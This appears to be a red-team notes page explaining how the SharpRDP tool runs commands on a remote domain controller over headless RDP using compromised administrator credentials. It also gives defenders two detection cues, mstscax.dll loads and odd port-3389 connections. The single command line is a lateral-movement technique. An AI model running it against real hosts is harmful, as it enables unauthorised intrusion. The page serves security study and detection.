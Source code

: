 ```yaml
---
layout: post
title: "2024-06-18-lateral movement over headless rdp with sharprdp"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-over-headless-rdp-with-sharprdp/
---
```


# Lateral Movement over headless RDP with SharpRDP

Executing commands on a remote host is possible by using a headless (non-GUI) RDP lateral movement technique brought by a tool called [SharpRDP](https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3?gi=fe80458d82a5).

## Execution

Executing a binary on a remote machine dc01 from a compromised system with offense\administrator credentials:

```
SharpRDP.exe computername=dc01 command=calc username=offense\administrator password=123456
```

![](<../../.gitbook/assets/image (476).png>)

## Observations

Defenders may want to look for mstscax.dll module being loaded by suspicious binaries on a compromised host from which SharpRDP is being executed:

![](<../../.gitbook/assets/image (477).png>)

Also, weird binaries making connections to port 3389:

![](<../../.gitbook/assets/image (478).png>)

## References

{% embed url="https://posts.specterops.io/revisiting-remote-desktop-lateral-movement-8fb905cb46c3?gi=fe80458d82a5" %}

@spotheplanet
